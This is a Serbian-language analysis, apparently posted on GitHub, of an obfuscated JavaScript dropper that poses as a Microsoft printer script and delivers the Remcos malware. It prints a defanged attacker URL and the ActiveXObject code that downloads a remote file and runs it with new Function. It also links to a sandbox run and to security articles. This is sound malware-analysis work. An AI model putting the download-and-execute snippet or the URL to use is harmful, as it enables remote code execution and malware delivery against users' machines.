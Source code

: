 ```js
http: / / 9001lovestoblog(.)com/arquivo_a8431cbb1fe14b89bb915eba088e3469.txt
```
Zatim, koristi:

```js
ActiveXObject
```

```js
var anisian = new ActiveXObject("MSXML2.ServerXMLHTTP");
anisian.open("GET", decodedUrl, false);
anisian.send();
```
da bi poslao HTTP GET zahtev i preuzeo sadržaj udaljenog fajla.
Kada se sadržaj fajla preuzme, on se izvršava kao JavaScript kod, što se postiže korišćenjem:

```js
new this["Function"](responseText)();
```

Ovo efektivno omogućava daljinsko izvršavanje proizvoljnog koda, što napadaču daje punu kontrolu nad ciljnim sistemom. Ostatak skripte imitira Microsoftove printer skripte koristeći tehničke XML funkcije kao što su:

```js
SetStandardNameSpaces()
```

```js
createProperty()
```
što služi za maskiranje namere malvera i zbunjivanje analitičkih alata. Ključna linija u napadu je izvršavanje koda iz preuzetog sadržaja, čime se potencijalno instalira dodatni malver, keylogger ili backdoor.

Korisni linkovi ka člancima:

### Korisni linkovi ka člancima:

- [Shifting threat landscapes and JavaScript obfuscation techniques – Sucuri Blog](https://blog.sucuri.net/2023/10/shifting-malware-tactics-stealthy-use-of-non-executable-txt-log-files.html#:~:text=Here%2C%20attackers%20place%20spam%20content,for%20website%20owners%20and%20developers)  
- [Malware victimization spreads quickly – Cybersecurity News](https://cybersecuritynews.com/malware-via-txt-log-files/#:~:text=txt%20files%20is%20incomplete.,by%20several%20common%20security%20measures.&text=Protect%20yourself%20from%20vulnerabilities%20using,850%20third%2Dparty%20applications%20quickly)  
- [Veriti Research on Malware Tracking – Veriti AI](https://veriti.ai/blog/veriti-research/unmasking-malware-through-ip-tracking//)

---

I da dodam na kraju da skida malver **Remcos**.

---

Ovde sam pokrenuo skriptu i može da se vidi ponašanje same skripte:
- [https://app.any.run/tasks/07ba6876-7eb4-45af-b2c7-86760089e5fc](https://app.any.run/tasks/07ba6876-7eb4-45af-b2c7-86760089e5fc)
